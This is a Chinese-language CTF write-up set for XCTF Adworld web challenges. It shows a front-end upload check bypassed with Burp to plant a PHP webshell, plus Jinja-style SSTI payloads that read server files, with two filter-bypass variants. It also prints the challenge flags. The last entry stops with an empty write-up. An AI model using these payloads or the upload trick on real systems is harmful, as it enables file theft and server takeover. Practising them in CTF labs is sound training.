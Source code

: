 # upload

## 题目链接

http://adworld.xctf.org.cn/adw/answer/4822/?type=web&level=1

## writeup

打开题目地址，发现就是一个上传页面。

尝试上传php文件的时候，发现会提示要求上传图片，但是burp中并没有抓到包，说明是前端验证。

将php文件修改为jpg文件。

在burp中抓包，然后将jpg文件的扩展名修改为php，然后点击转发，可以发现转发成功，并获取到文件地址：`upload/1544162163.one.php`

![1544162213489](F:\学习资料\hacker\学习笔记\ctf\writeup\xctf攻防世界\web\web新手篇\assets\1544162213489.png)

接下来，我们通过菜刀连接该地址。

连接成功后，可以看到有一个文件`flag.php`，查看该文件代码，找到flag

```html
xctf{3d6cbc2a76ff7898be2076438025eff5}
```

# confusion1

## 题目来源

XCTF 4th-QCTF-2018 

## 题目链接

http://adworld.xctf.org.cn/adw/answer/4683/?type=web&level=1

## writeup

首先打开题目地址，发现就只有一个图片，一个登陆链接，一个注册链接。

查看登陆链接和注册链接，发现都是404。

这时候查看源代码，就发现404页面的源代码中有提示。

```
<!--Flag @ /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt-->
<!--Salt @ /opt/salt_b420e8cfb8862548e68459ae1d37a1d5.txt-->
```

根据提示，可以猜测出想办法查看这个文件，就可以拿到flag了。

然后猜想404页面的url部分存在SSTI漏洞。

使用payload测试一下。

```
{{10*10}
将其urlencode
%7B%7B10*10%7D%7D
然后提交
```

最终页面返回的内容如下：

```
The requested URL /100 was not found on this server. 
```

![1544163657185](F:\学习资料\hacker\学习笔记\ctf\writeup\xctf攻防世界\web\web新手篇\assets\1544163657185.png)

借此，说明漏洞是存在，下一步就是构造payload获取文件信息了。

构造payload

```
{{''.class.mro[2].subclasses()[40]('opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt').read()}}
```

![1544163981510](F:\学习资料\hacker\学习笔记\ctf\writeup\xctf攻防世界\web\web新手篇\assets\1544163981510.png)

发现提示让找其他办法，说明还有waf，看来还需要绕过waf才行。

那么我们就想办法绕过，我上网找了两个办法。

```
{{''['__cla'+'ss__']['__mr'+'o__'][2]['__subcla'+'sses__']()[40]('opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt').next()}}
```

这个是通过在每个字母的前和后添加下划线，同时在字母中间通过符号+做拼接实现绕过。

```
{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```

这个是通过用request.args绕过 。

最终，得到flag如下

```
QCTF{1_4m_c0nFu51ed_6y_PhPy7h000ooo000n}
```

![1544164230484](F:\学习资料\hacker\学习笔记\ctf\writeup\xctf攻防世界\web\web新手篇\assets\1544164230484.png)

同时，将另一个提示文件salt也获取

```
_Y0uW1llN3verKn0w1t_
```

# Training-Get-Resourced

## 题目链接

http://adworld.xctf.org.cn/adw/answer/4747/?type=web&level=1

## 题目描述

一定不要把重要的东西放在注释里 

## writeup

这道题，flag就在源代码的注释里。没啥好说的。

# cetc-01

## 题目链接

http://adworld.xctf.org.cn/adw/answer/4916/?type=web&level=1

## 题目描述

工控云管理系统客服中心存在漏洞，flag就在flag/flag/flag/flag/flag/flag/flag.php文件里面 

## writeup

